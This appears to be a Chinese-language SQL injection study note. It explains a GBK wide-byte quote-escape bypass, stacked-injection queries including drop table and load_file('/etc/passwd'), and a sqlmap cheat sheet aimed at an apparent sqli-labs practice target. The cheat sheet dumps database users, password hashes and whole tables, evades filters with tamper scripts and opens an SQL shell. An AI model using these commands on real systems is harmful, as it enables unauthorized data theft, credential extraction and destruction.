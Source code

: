 

#### 绕过方法

```
宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码是%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

```



### 堆叠注入

基础操作，就是使用分号执行多条命令。

#### 基础知识(mysql)

```
新建一个表				select * from users;create table A like users;
删除刚才创建的表		  select * from users;drop table test;
查询数据				 select * from users;select B,C,D;
加载文件				 select * from users;select load_file('/etc/passwd');
增加一条数据			    select *  from users;insert into users values(18,2,3,);
```



### Sqlmap基本使用

```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
```